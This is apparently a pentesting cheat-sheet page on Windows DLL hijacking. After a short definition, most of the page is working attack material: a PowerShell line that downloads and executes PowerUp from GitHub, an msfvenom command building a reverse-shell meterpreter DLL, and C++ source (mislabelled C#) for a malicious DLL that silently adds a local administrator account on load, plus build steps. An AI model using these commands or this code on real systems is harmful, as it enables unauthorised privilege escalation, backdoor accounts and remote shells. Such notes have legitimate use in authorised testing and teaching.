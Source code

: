 ```yaml
---
description: Some methods to perform a DLL Hijacking in a Windows environment
---
```


# DLL Hijacking

### Definition

DLL hijacking is a method of injecting malicious code into an application by exploiting the way some Windows applications search and load Dynamic Link Libraries (DLL).

Only Microsoft operating systems are susceptible to DLL hijacks.

By replacing a required DLL file with an infected version and placing it within the search parameters of an application, the infected file will be called upon when the application loads, activating its malicious operations.

For a DLL hijack to be successful, a victim needs to load an infected DLL file from the same directory as the targeted application.

### Find all possible paths

When looking for a DLL Hijacking, you must look to the system path to find where you can put your DLLs

#### Using Register

```
reg query “HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment” /V Path
```

#### Using a tool

First you need to import PowerUp to you powershell :

```
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Privesc/PowerUp.ps1")
```

And then you can use the following command :&#x20;

```
Find-PathDLLHijack
```

### Netman for a Windows Server

If you need to make a DLL Hijacking in a Windows Server from 2008 to 2019, you can use Netman to involve your DLL.

{% embed url="https://itm4n.github.io/windows-server-netman-dll-hijacking/" %}
Blog post from itm4n
{% endembed %}

And to use it you have to build your own DLL ( see next part ) and rename it to **\***wlanhlp.dll\* and \*wlanapi.dll\*.

And then upload it to the path with NetManTrigger.exe and run it to involve your DLLs.

### Build your own DLL

You can build it using msfvenom with:&#x20;

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f dll -o msf.dll
```

or you can create it using C# :&#x20;

```csharp
#include <stdio.h>
#include <windows.h>

#ifdef BUILD_DLL
    #define DLL_EXPORT __declspec(dllexport)
#else
    #define DLL_EXPORT __declspec(dllimport)
#endif

BOOL running = FALSE;

void DLL_EXPORT initCallback()
{    
    if(!running) {
      system("net user /add Admin Admin@123 && net localgroup administrators Admin /add");
      running = TRUE;
    }

}

extern "C" DLL_EXPORT BOOL APIENTRY DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    switch (fdwReason)
    {
        case DLL_PROCESS_ATTACH:
                  initCallback();
            break;

        case DLL_PROCESS_DETACH:
                  initCallback();
            break;

        case DLL_THREAD_ATTACH:
                  initCallback();
            break;

        case DLL_THREAD_DETACH:
                  initCallback();
            break;
    }
    return TRUE;
}
```

It will create an Admin user in the server and you will then be able to connect to it.

To build it :&#x20;

```powershell
C:\> g++.exe -Wall -DBUILD_DLL -O2 -c WptsExtensions.cpp -o WptsExtensions.o

(cmd) C:\> g++.exe -shared -Wl,--dll WptsExtensions.o -o WptsExtensions.dll
ou
(powershell) C:\> g++.exe -shared '-Wl,--dll' WptsExtensions.o -o WptsExtensions.dll
```
